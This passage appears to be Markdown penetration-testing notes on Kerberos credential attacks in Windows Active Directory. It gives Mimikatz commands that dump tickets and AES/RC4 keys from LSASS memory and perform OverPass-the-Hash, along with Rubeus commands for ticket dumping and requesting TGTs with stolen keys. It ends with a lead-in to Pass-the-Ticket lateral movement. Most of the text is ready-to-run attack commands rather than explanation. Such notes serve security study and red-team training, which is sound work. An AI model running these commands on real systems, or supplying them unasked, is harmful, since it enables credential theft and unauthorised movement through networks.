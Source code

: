 Tickets are protected by LSASS. Non admin users can only retrieve their own ticket, as an admin, it is possible to retrieve all tickets on the system.

###### Mimikatz:

Export Tickets:

```bash
mimikats.exe
privilege::debug
sekurlsa::tickets /export
```

Tickets with an `$` indicate they are used for computer accounts. Tickets without just a `@` are user tickets

###### Rubeus

Export Tickets

```bash
Rubeus.exe dump /nowrap
```

#### Pass the Key or OverPass the Hash (forging our own tickets)

We need to extract the `AES256_HMAC` and `RC4_HMAC` keys

###### Mimikatz:

```bash
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

With the information collected, we can we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.
#### Mimikatz - Pass the Key or OverPass the Hash

```bash
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:<DOMAIN> /user:<USER> /ntlm:<rc4_hmac/NTLM>
````

#### Rubeus - Pass the Key or OverPass the Hash

```bash
Rubeus.exe  asktgt /domain:<DOMAIN> /user:<USER> /aes256:<AES256_HMAC> /nowrap
```

**Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus does not.

### Pass the Ticket

With the Kerberos tickets collected, we can now perform Pass the Ticket, and moe laterally within the environment.




